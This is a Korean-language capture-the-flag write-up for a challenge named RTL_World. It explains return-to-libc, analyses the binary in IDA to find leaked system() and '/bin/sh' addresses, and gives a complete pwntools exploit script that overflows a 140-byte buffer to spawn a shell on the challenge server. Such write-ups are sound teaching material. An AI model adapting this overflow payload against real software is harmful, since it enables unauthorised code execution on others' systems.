

RTL_World
-------------	
 
* RTL 이란?    
Return-to-libc란 뜻으로, libc안 함수를 이용해 쉘을 실행시키는게 목표이다!    
조금 생각해보면, 우리가 쉘을 가잘 빨리 얻을 수 있는 방법이 뭘까?    
```c	system("/bin/sh")``` 
이 코드일 것이다.   
RTL은 코드의 Return까지 BOF를 일으키고, Return Address에 system()의 주소를 넣고, 4byte의 더미값 + 쉘코드를 넣으면 된다.   
여기서 왜 4byte의 더미값을 넣는 것일 까?   
system()함수 뒤의 값은 system()가 끝나고 실행되는 코드이기 때문이다.    
이제 RTL이 무엇인지 이해가 됐을 꺼라 믿고, 문제를 풀이해보겠다!    

-----------------------------------------    
## 문제풀이    

일단 문제에 접속해보면,    
    
보스를 잡아달라고 한다.   
2,3,4는 IDA코드를 보면서 알아보도록 하고,   
1을 입력해보면,    
    
걸려있는 보호기법이랑, 보스의 주소(?)랑 HP가 나오는데, 뭔 뜻인지는 나중에 IDA를 까보면서 알아보자.   
5를 입력하면 공격하라고 뜬다.    
    

자 그럼 IDA로 뜯어보도록 하자!    

 -----------------------------------------    
### 코드분석    
    
2는 3,4를 정상적으로 실행하기 위한 골드 수급용 함수인 것 같다.    
(진짜 게임같네)    
3은 **system Armor** 라면서 v6의 주소를 준다. v6?   
4는 **Shell Sword** 라면서 s1의 주소를 준다. s1?    
위 두 변수의 정체가 뭘까?    
   
위 코드를 보면,   
handle은 떡하니 libc라고 적혀있는 걸로 봐서 libc의 주소를 기억하는 것 같고,   
v6에는 그 handle, 즉 libc에서 system함수를 찾아 그 주소를 저장한다.    
그다음 s1에는 v6, 즉 system함수에서 "/bin/sh"이라는 문자열의 주소를 저장한다.   
자 그러면 3을 입력하면 system함수의 주소가,  4를 입력하면 "/bin/sh", 쉘코드의 주소를 전달해주는 걸 알 수 있다!   
좋아 거의 다 끝났다!    
이제 얼만큼 BOF를 일으켜야 할지 구하기만 하면 된다!    
    
보면 buf는 ebp-8CH에 위치해 있다고 한다.   
8C = 140 
즉 Payload를 짜보면 
Dummy(140) + SFP(4) + system()주소 + Dummy(4) + "/bin/sh"의 주소를 넣으면 된다!    

 -----------------------------------------    
### 익스코드    
```python 
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3010)

for i in range(8):
	p.recvuntil(">>> ")
	p.sendline("2")
	p.recvuntil("(Job)>>> ")
	p.sendline("3")

p.recvuntil(">>> ")
p.sendline("3")
p.recvuntil("System Armor : ")
systemAdd =p32(int(p.recv(10),16))
p.recvuntil(">>> ")
p.sendline("4")
p.recvuntil("Shell Sword : ")
shellAdd = p32(int(p.recv(10),16))

payload = 'R'*144
payload += systemAdd
payload += 'T'*4
payload += shellAdd

p.recvuntil(">>> ")
p.sendline("5")
p.recvuntil("[Attack] > ")
p.sendline(payload)
p.interactive()
```    
 -----------------------------------------  
 
    
손쉽게 flag를 얻었다!   